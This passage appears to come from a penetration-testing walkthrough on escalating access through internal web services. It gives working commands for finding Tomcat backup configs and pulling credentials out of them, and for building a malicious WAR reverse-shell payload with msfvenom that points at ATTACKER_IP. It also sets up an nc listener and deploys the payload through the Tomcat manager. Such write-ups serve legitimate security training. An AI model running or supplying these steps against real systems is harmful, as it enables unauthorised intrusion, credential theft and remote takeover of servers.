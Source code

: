 **Key Insight**: Group memberships like `adm`, `disk`, `docker`, and `lxd` provide elevated access to system resources that can lead to privilege escalation.

---

### Phase 4: Web Application Service Exploitation

**Objective**: Identify internal web services and exploit application manager interfaces for remote code execution

#### Internal Service Discovery
```bash
# Enumerate listening ports
netstat -tulpn | grep LISTEN
ss -tulpn

# Check for web services
curl -I http://localhost:8080
curl -I http://localhost:80
```

#### Tomcat Manager Interface Attack
```bash
# Hunt for Tomcat configuration files
find /etc -name "*tomcat*" -type f 2>/dev/null
find /etc -name "*tomcat*" -type d 2>/dev/null

# Search for backup configuration files
ls -la /etc/tomcat9/
cat /etc/tomcat9/*.bak

# Extract credentials from configuration
grep -i "password\|user" /etc/tomcat9/tomcat-users.xml.bak
```

#### WAR File Upload Attack
```bash
# Generate malicious WAR file
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=ATTACKER_IP \
  LPORT=LISTENER_PORT \
  -f war -o malicious.war

# Setup reverse shell listener
nc -nlvp LISTENER_PORT

# Deploy WAR via manager interface:
# 1. Login to http://target:8080/manager/html
# 2. Upload malicious.war file
# 3. Click deployed application to trigger shell
```

**Critical Technique**: Internal web services often have weak authentication and provide high-privilege execution contexts for immediate system compromise.

---